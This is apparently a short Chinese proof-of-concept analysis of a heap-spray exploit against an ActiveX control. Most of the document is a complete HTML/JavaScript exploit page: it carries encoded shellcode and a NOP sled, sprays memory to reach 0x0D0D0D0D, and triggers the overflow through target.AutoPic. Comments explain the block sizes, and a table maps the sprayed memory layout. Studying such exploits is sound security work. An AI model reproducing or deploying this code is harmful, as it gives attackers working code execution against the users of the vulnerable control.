 POC分析：

```
<html>
<body>
<object classid="clsid:128D0E38-1FF4-47C3-B0F7-0BAF90F568BF" id="target"></object>
<script>
  
shellcode = unescape(
'%uc931%ue983%ud9de%ud9ee%u2474%u5bf4%u7381%u3d13%u5e46%u8395'+
'%ufceb%uf4e2%uaec1%u951a%u463d%ud0d5%ucd01%u9022%u4745%u1eb1'+
'%u5e72%ucad5%u471d%udcb5%u72b6%u94d5%u77d3%u0c9e%uc291%ue19e'+
'%u873a%u9894%u843c%u61b5%u1206%u917a%ua348%ucad5%u4719%uf3b5'+
'%u4ab6%u1e15%u5a62%u7e5f%u5ab6%u94d5%ucfd6%ub102%u8539%u556f'+
'%ucd59%ua51e%u86b8%u9926%u06b6%u1e52%u5a4d%u1ef3%u4e55%u9cb5'+
'%uc6b6%u95ee%u463d%ufdd5%u1901%u636f%u105d%u6dd7%u86be%uc525'+
'%u3855%u7786%u2e4e%u6bc6%u48b7%u6a09%u25da%uf93f%u465e%u955e');
//size:0xA0
nops=unescape('%u9090%u9090');  //size:0x04
headersize =20;        //size:0x28，js中的长度是按照宽字符计算的
slackspace= headersize + shellcode.length;  //size:0x0C8，slackspace=100
  
while(nops.length < slackspace) nops+= nops;          //Nop的长度是按照指数增长的，增长到0x100
fillblock= nops.substring(0, slackspace);             //size：0xC8，substring() 方法用于提取字符串中介于两个指定下标之间的字符
block= nops.substring(0, nops.length- slackspace);        //size：0x100-0xC8=0x38
  
while( block.length+ slackspace<0x50000) block= block+ block+ fillblock;
//size:FFEAC
memory=new Array();
  
for( counter=0; counter<200; counter++)
memory[counter]= block + shellcode;
//每个元素的真实数据大小是0xFFFD8，加上额外数据，每个元素在内存中占用的大小是0x100000，一共是200个数据，假设从内存0x0的位置存放数组，200个元素，会一直存放到0xC800000，实际上数组并不是从0x0位置开始存放的，进程本身，堆栈以及其他变量所需的内存空间，会导致数组很容易覆盖0x0D0D0D0D的地址空间。
s='';
for( counter=0; counter<=1000; counter++)
s+=unescape("%0D%0D%0D%0D");
target.AutoPic(s,"defaultV");
</script>
</body>
</html>
```

 

| 偏移            | 内容                                        |
| --------------- | ------------------------------------------- |
| 0×00~0x1F       | 应该是描述内存的数据                        |
| 0×20~0×23       | 应该也是描述内存的数据(0xD8 0xFF 0x0F 0×00) |
| 0×24~0xFFF5B    | 0×90 0×90(这是填充数据)                     |
| 0xFFF5C~0xFFFFB | shellcode                                   |
| 0xFFFFC~0xFFFFF | 0×00 0×00 0×00 0×00                         |
